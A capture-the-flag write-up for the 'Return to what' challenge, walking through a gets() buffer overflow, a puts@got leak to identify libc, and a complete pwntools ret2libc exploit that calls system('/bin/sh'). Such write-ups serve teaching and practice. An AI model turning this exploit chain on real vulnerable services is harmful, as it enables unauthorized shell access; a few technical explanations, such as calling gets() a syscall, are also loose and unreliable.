

# Challenge Name : Return to what

# Challenge Description : 

This will show my friends!

## Analysis of the binary

Upon running a checksec on the binary, we see the following : 

```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

It seems that there is Partial Relro, that means we can do a `ret-to-libc` easily. 

The following is the `vuln()` function from the ghidra decompiler : 

```
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

We see that the buffer size if 48 and there is a `gets()` syscall. We can easily get a buffer overflow and leak the address of the puts function and then get the base address for libc. 

From here we can get the version of the libc that is being used by the server and create a ropchain using the syscall offsets from that libc that we have found out.


## Leaking the Remote Libc

First find out the offset at which the buffer overflow is triggered. It turns out to be 56. Then take a Rop Gadget from the binary. I used the tool called Ropper to get a Ropgadget.

```
ropper --file return-to-what
```

I will use the gadget `pop rdi; ret` which will allow me to jump to the code on the stack that I have placed after the buffer overflow. 

Then I'll need the `puts@plt` and the `puts@got` from the binary. We will leak the address of `puts@got` from the remote binary, so it will be placed as the parameter for `puts@plt` call and then return the function to `main` to continue the execution of the program further. 

So the following piece of code will leak the puts@got from the remote libc


```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))
```

## Finding the libc version

After leaking the remote libc find out the libc version in the libc database. I used the online libc database.


Copy this leaked address that you have got and then paste it in the remote libc database as follows



Here you can see that two results are being given for the address. One of them is for 64 bit system and since we are dealing with a 64-bit binary, I used the amd64 version and it worked. You can even download the libc from here and use it.


## Calculating Libc base and other offsets

After downloading the remote libc, calculate the offets and the libc base as follows : 

```
#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)
```

Also find the actual addresses of the functions as shown above. 


## Final Exploit

```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
elf = context.binary = ELF("./return-to-what")
libc = ELF("./local_libc.so.6")
#libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sh = gdb.debug("./return-to-what")
#for remote
#sh = remote("chal.duc.tf", 30003)

puts_got = p64(elf.got[b'puts'])
puts_plt = p64(elf.plt[b'puts'])
main_plt = p64(elf.symbols[b'main'] + 1)
padding = b'a'*56
pop_rdi = p64(0x000000000040122b)

# Leaking libc

payload = padding + pop_rdi + puts_got + puts_plt + main_plt
sh.sendlineafter("?\n",payload)
puts_leaked = sh.recvline().rstrip()
puts_leaked = u64(puts_leaked.ljust(8,b"\x00"))
print("LEAK : ",hex(puts_leaked))

#Calculating libc base from the offset

puts_offset = libc.symbols[b'puts']
libc_base = puts_leaked - puts_offset
print("LIBC Base : ",hex(libc_base))
system_offset = libc.symbols[b'system']
binsh_offset = next(libc.search("/bin/sh"))
exit_offset = libc.symbols[b'exit']

system = p64(libc_base + system_offset)
binsh = p64(libc_base + binsh_offset)
exit = p64(libc_base + exit_offset)

payload1 = padding + pop_rdi + binsh + system
sh.sendlineafter("?\n",payload1)

sh.interactive()
```

